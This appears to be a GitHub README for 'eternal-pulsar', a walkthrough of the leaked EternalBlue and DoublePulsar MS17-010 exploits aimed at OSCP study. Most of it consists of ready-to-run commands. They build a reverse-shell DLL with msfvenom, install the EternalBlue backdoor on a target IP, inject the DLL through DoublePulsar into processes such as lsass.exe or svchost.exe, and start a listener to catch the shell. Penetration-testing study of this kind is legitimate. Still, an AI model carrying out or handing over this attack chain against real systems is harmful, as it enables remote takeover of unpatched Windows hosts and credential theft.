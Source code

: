 # Eternal-pulsar (ms17-010)

Eternalblue-Doublepulsar without Metasploit and Python ([FuzzBunch_notes](https://github.com/sailay1996/eternal-pulsar/blob/master/FuzzBunch-notes/README.md))<br> 
base on shadowbroker's exploit ([fuzzbunch](https://github.com/misterch0c/shadowbroker))
- you can run it on windows or linux (need wine)


### Create payload with msfvenom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>

### EternalBlue & Doublepulsar  (--help )

[help.txt](https://github.com/sailay1996/eternal-pulsar/blob/master/help.txt)


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt` <br>

![test1](https://github.com/sailay1996/eternal-pulsar/blob/master/img/2.jpg)


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`
<br>
![test2](https://github.com/sailay1996/eternal-pulsar/blob/master/img/1.jpg)

### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!
![test3](https://github.com/sailay1996/eternal-pulsar/blob/master/img/3.jpg)

Thanks for watching here !!! <br>
I hope this will help you in your oscp journey .
<br><br>
#### [@404death](https://twitter.com/404death)
